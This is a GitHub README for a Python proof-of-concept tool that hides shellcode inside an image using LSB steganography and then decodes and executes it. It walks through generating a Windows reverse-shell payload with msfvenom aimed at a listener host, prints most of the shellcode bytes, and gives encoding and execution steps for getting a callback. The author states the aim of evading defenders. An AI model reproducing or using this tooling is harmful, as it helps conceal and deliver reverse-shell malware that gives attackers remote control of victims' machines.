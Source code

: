 # PyStegMalz
Python 2.7 script that uses LSB steganography to host your shellcode payloads from within a image, and a corresponding script to decode & execute the shellcode. This was a POC created as an pure experiement with defence-evasion not being the focus. However, this project will be updated continously to improve OPSEC & hopefully be a technqiue to evade the blue-team!

There are two scripts: 
`encoder.py` & `shellcode_runner.py`
For a very detailed explanation of this POC pleases check out my corresponding blog post:

https://polygonben.github.io/defence%20evasion/Creating-Stego-payloads/

## Instructions for use
### Generating shellcode.

For this POC I'll generate a simple reverse-shell. Let's generate the corresponding shellcode in msfvenom:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.0.123 LPORT=4444 -f py`

The shellcode generated will look something like this (this precise shellcode can be found in this repo as `shellcode.txt`):

```
buf =  b""
buf += b"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51"
buf += b"\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52"
buf += b"\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72"
buf += b"\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0"
buf += b"\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
buf += b"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b"
...
buf += b"\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5\x48\x31\xd2"
buf += b"\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
buf += b"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d"
buf += b"\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb"
buf += b"\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41"
buf += b"\x89\xda\xff\xd5"
```
Copy the contents of the shellcode, like above, into a text file and save it! Please ensure the first line, `buf = b""`, is included.

### Picking an image

For this part you can be creative, choose a fairly large image to ensure there is enough space to encode your shellcode. Save this to the same directory you put your shellcode text file in. 

If you are just playing around with this, `example.png` from this repo works well!

### Encoding

`encoder.py -s shellcode.txt -i example.png`

Expected output should be: 'Payload encoded and image saved to: poc_example.png'

However, if you recieve: 'Data too large for the image.' -> Choose a larger image!

You can view this payload encoded image and you'll barely notice a change between the two.

### POC demo

https://polygonben.github.io/defence%20evasion/Creating-Stego-payloads/#poc-live-demo

## Execution

Execution should be simple, just edit the `encoded_image_path` variable in the `shellcode_runner.py` script to be the filename (or path), in my case `poc_example.png` and execute the script! If you've got a listener going on the attacking box, after executing the Python script you should get a call back! :)
